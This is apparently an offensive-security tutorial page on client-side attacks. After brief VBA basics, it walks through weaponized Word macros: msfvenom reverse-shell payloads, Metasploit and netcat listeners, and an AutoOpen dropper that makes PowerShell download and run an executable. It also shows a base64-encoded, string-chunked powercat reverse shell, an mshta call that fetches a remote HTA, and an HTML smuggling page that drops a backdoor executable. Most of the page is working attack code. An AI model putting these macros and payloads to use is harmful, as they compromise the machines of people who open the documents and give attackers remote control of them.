








# Clinet side attack

## VBA Fundamental

1. Declaring variables of different types in VBA


```vb
Dim myString As String
Dim myLong As Long
Dim myPointer As LongPtr
```


2. If and Else statements in VBA


```vb
Sub MyMacro()

Dim myLong As Long

myLong = 1

If myLong < 5 Then
    MsgBox ("True")
Else
    MsgBox ("False")
End If

End Sub
```


3. For loop in VBA


```vb
Sub MyMacro()

For counter = 1 To 3
    MsgBox ("Alert")
Next counter

End Sub
```


4. Simple Word Macro that automatically executes


```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    MsgBox ("This is a macro test")
End Sub
```


5. Macro to execute cmd from the Shell method


```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    Shell str, vbHide
End Sub
```


6. Macro execute cmd from Windows Script Host


```vb
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub
Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub

```


#### How write Macro in word

1. open word

<figure><figcaption></figcaption></figure>

2. create a macro name

<figure><figcaption></figcaption></figure>

3. Add code in editor

<figure><figcaption></figcaption></figure>

***

## Weaponizing

### VBA with MSF

1. create a payload&#x20;


```shellscript
msfvenom --list format
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f vpa-psh
```


<figure><figcaption></figcaption></figure>

2. create a custom word file (change <mark style="color:$danger;">`Document_Open`</mark>)

<figure><figcaption></figcaption></figure>

3. create a listiner


```shellscript
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.100; set LPORT 4444; set ExitOnSession false; exploit -j -z"
```



```shellscript
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.5
set lport 4444
```


<figure><figcaption></figcaption></figure>

***

### VBA Powershell (Dropper)

1. create a executable file Dropper


```shellscript
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```


<figure><figcaption></figcaption></figure>

2. create a simpe python server


```shellscript
sudo python3 -m http.server 8080
```


<figure><figcaption></figcaption></figure>

3. create a macros code&#x20;


```vb
Sub AutoOpen()
    Dropper
End Sub
Sub Document_Open()
    Dropper
End Sub

Sub Dropper()
    'defining variable 
    Dim url As String
    Dim psScript As String
    
    'URL of remote web server hosting the payload for initial accesss
    url = "http://192.168.1.105:8080/shell.exe"
    
    'powershell script to download and execute the file
    psScript = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Users\administrator\Desktop\file.exe"";" & vbCrLf & "Start-Process -FilePath ""C:\Users\administrator\Desktop\file.exe"""
    
    'execute the powershell script using shell function
    Shell "powershell.exe -ExecutionPolicy ByPass -WindowStyle Hidden -Command """ & psScript & """", vbHide
End Sub

```


<figure><figcaption></figcaption></figure>

4. create a listener&#x20;

<figure><figcaption></figcaption></figure>

***

### VBA with powercat

1. install powercat and set up python web server


```shellscript
git clone https://github.com/besimorhino/powercat.git
cd powercat 
sudo python3 -m http.server 8080
```


<figure><figcaption></figcaption></figure>

2. Encoding the powershell command UTF16-LE (<mark style="color:$danger;">`Command Obfuscation`</mark>)


```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.105:8080/powercat.ps1');powercat -c 192.168.1.105 -p 4444 -e powershell
```



```shellscript
echo -n "YOUR POWERSHELL COMMAND" | iconv -t utf-16le | base64 -w 0
```


<figure><figcaption></figcaption></figure>

3. Create a powershell script&#x20;


```powershell
powershell.exe -ExecutionPolicy ByPass -nop -WindowStyle Hidden -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4AMQAwADUAOgA4ADAAOAAwAC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAxAC4AMQAwADUAIAAtAHAAIAA0ADQANAA0ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAA=
```


4. String Chunking (<mark style="color:$danger;">`Command Obfuscation`</mark>)


```shellscript
fold -w50 <<< "$str" | sed 's/"/\\"/g; s/.*/Str = Str + "&"/'
```


<figure><figcaption></figcaption></figure>

5. create a macro code


```vb
Sub AutoOpen()
    powercat
End Sub
Sub Document_Open()
    powercat
End Sub

Sub powercat()
    'defining variable 
    Dim Str As String
    
    Str = Str + "powershell.exe -ExecutionPolicy ByPass -nop -Windo"
    Str = Str + "wStyle Hidden -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGU"
    Str = Str + "AYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAb"
    Str = Str + "ABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQB"
    Str = Str + "uAGcAKABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxA"
    Str = Str + "C4AMQAwADUAOgA4ADAAOAAwAC8AcABvAHcAZQByAGMAYQB0AC4"
    Str = Str + "AcABzADEAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAO"
    Str = Str + "QAyAC4AMQA2ADgALgAxAC4AMQAwADUAIAAtAHAAIAA0ADQANAA"
    Str = Str + "0ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAA="

    CreateObject("Wscript.shell").Run Str
End Sub

```


6. finally

<figure><figcaption></figcaption></figure>

***

### VBA with HTA


HTA is HTML Application run by mshta.exe


1. create a vba payload by msfvenom


```shellscript
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.105 LPORT=4444 -f hta-psh -o shell.hta
```


<figure><figcaption></figcaption></figure>

2. start apache service and copy shell hta file&#x20;


```shellscript
cp shell.hta /var/www/html
sudo systemctl start apache2.service
sudo systemctl status apache2.service
```


<figure><figcaption></figcaption></figure>

3. create a VBA code to execute a HTA code by mshta.exe


```vb
Sub AutoOpen()
    ExecuteHTA
End Sub

Sub Document_Open()
    ExecuteHTA
End Sub

Sub ExecuteHTA()
    Dim url As String
    Dim command As String
    url = "http://192.168.1.105/shell.hta"
    command = "mshta.exe " & url
    Shell command, vbNormalFocus
End Sub
```


<figure><figcaption></figcaption></figure>

4. start listener with nc and open word


```shellscript
nc -nvlp 4444
```


<figure><figcaption></figcaption></figure>

***

## Delivery and Execution

#### File Smuggling with HTML & JavaScript

1. create a payload reverse shell


```shellscript
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.105 LPORT=4444 -f exe > backdoor.exe
```


<figure><figcaption></figcaption></figure>

2. Get the base64-encoded value of an executable (backdoor.exe).


```shellscript
base64 -w0 backdoor.exe > base64.txt
```


<figure><figcaption></figcaption></figure>

3. Switch the current directory to an Apache web server root folder (<mark style="color:$danger;">`/var/www/html`</mark>) and paste the below-given HTML to the attacker’s machine


```shellscript
cd /var/www/html
rm *
nano index.html
```


HTML code put encoding value in file variable&#x20;


```html
<html>
  <body>
    <script>
      function base64ToArrayBuffer(base64) {
        var binary_string = window.atob(base64);
        var len = binary_string.length;
        var bytes = new Uint8Array(len);

        for (var i = 0; i < len; i++) {
          bytes[i] = binary_string.charCodeAt(i);
        }

        return bytes.buffer;
      }


      var file = '<backdoor.exe Base64 Encoded Value>';
      var data = base64ToArrayBuffer(file);
      var blob = new Blob([data], {
        type: 'octet/stream'
      });
      var fileName = 'msfstaged.exe';


      var a = document.createElement('a');
      document.body.appendChild(a);
      a.style = 'display: none';
      var url = window.URL.createObjectURL(blob);
      a.href = url;
      a.download = fileName;
      a.click();

      window.URL.revokeObjectURL(url);
    </script>
  </body>
</html>
```


***

Analysis Doc file with VBA


```
olevba file.docm
```


<figure><figcaption></figcaption></figure>
